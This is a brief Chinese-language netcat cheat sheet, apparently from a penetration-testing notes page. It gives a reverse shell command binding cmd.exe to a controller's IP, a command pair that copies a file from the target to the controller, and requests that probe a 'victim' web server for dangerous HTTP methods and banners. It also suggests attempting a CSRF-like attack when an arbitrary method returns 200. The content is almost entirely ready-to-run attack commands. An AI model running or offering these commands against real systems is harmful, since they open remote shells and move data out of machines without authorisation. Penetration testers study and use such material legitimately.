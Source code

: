 ### 反弹shell
```
靶机：nc.exe -vv 控制端IP 6666 -e  c:\windows\system32\cmd.exe
控制机：nc -lvp 6666
```
### 传输文件
```
控制机：nc -l 6666 >1.txt
靶机：nc 控制端IP 6666 < c:\1.txt
```
### 手工测试目标是否允许危险的请求方式：put、move、options
```
nc.exe www.victim.com 80
OPTIONS / HTTP/1.1
Host: www.victim.com
```
### 测试任意HTTP 方法
```
nc www.example.com 80
JEFF /HTTP1.1
```
正常情况应该是返回405或501，要是返回200，尝试发起类似CSRF的攻击。
### 查看web服务信息
```
nc.exe www.victim.com 80
HEAD / HTTP/1.0
```
